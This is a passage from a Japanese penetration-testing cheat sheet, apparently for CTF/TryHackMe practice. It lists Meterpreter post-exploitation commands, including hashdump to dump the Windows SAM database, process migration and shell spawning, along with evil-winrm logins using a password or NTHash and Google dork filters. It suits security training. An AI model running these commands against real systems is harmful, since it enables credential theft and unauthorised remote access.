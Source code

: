 | | システムの特権に昇格させようとします。 |
+---------------+-----------------------------------------------------+
| hashdump | | SAM データベースの内容をダンプします。 |
+---------------+-----------------------------------------------------+

##### 使用例（Metasploit での Exploit 後）

```bash
# Windows
meterpreter > help
meterpreter > sysinfo
meterpreter > getuid
meterpreter > load powershell
meterpreter > powershell_shell
PS>
# Linux
meterpreter > ps
meterpreter > migrate PID
meterpreter > hashdump
meterpreter > search -f flag.txt
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### evil-winrm

##### 基本

```bash
evil-winrm -i IP -u USER
```

##### オプション

+------------------+----------------------------+
| -i \<ip_addres\> | | リモート IP アドレスを指定 |
+------------------+----------------------------+
| -u \<username\> | | ユーザ名を指定 |
+------------------+----------------------------+
| -P \<password\> | | パスワードを指定 |
+------------------+----------------------------+
| -H \<HASH\> | | NTHash を指定 |
+------------------+----------------------------+

### OSINT 関連ツール

#### Google ハッキング/ドッキング

Filter Example Description site: site:tryhackme.com
指定された Web サイトアドレスからのみ結果を返す inurl: inurl:admin
URL に指定された単語を含む結果を返す filetype: filetype:pdf
特定のファイル拡張子である結果を返す intitle: intitle:admin
タイトルに指定された単語を含む結果を返す
